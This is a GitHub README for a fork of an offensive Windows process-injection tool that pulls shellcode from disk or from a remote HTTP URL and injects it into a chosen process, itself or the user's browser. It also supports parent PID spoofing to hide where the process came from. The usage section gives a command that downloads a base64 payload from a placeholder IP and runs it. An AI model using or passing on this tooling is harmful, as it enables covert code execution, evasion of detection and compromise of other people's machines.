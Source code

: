 # ProcessInjection

This fork of process injection allows for dynamically pulling shellcode (in bin or base64 format) from either the disk or over HTTP as opposed to embedding the shellcode in the binary.

Additional Techniques yoinked from 3xpl01tc0d3r: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Usage

```
Usage: ProcessInjection.exe <pid|self> <binlocation> <bintype>");
    Example: ProcessInjection.exe self http://x.x.x.x/app.b64 b64");
    Example: ProcessInjection.exe 1000 C:\Temp\app.bin bin");
```

## Target and Format

The `targ` argument can point to a URL or path on disk. URLs must start with http:// or https://. This file should contain your shellcode. .Net shellcode can be generated via Donut by TheWover.

The `form` argument tells the runner whether the shellcode is in "binary" format (default) or "base64. Valid values are "bin", "binary", "base64", and "b64". If encoded, the runner will decode it.

## Injection Techniques

The `meth` argument tells the runner what technique to use for injection. Right now, only "simple" injection is supported (default) via CreateRemoteThread.

## Parent Spoofing vs PID

You can either target a live process (PID / live mode) to inject into or you can use parent spoofing. PID mode requires the use of the `pid` arugment while parent spoofing requires both `parent` and `spawn`.

### PID / Live Mode

The `pid` value accepts a valid PID, a program to search for (explorer.exe/notepad.exe), or "self". When searching, the pid is resolved from the current session so the process needs to be in the same session. For self, the runner will just inject into itself and wait forever. There is an additional alias called `browser` that attempts to first inject into the user's default browser and then blindly checks for running chrome and IE instances.

### Parent Mode

The `parent` argument can be either a valid running PID or a program name (explorer/program.exe). When searching for the program name, a running PID for that program must exist in the same session.

The `spawn` argument tells the runner which program to spawn and inject into. It can either be a fully qualified path to an EXE or a basename like "explorer.exe". The runner will search the \$PATH environment variable for the executable. The spawn argument also has a browser alias that looks for common brower executables.

## Known Issues

- cmd.exe may not work with spawn.

### References

- .Net ShellCode https://github.com/TheWover/donut
- Parent Spoofing: https://github.com/3xpl01tc0d3r/ProcessInjection/blob/master/ProcessInjection/Program.cs

## Todos:

- Accept "browser" for parent/spawn/pid arguments and autofind targets
- Process hollowing
- APC Queue
- Clean up Win32
- Simple targets and keys
- Parseable targets via regex
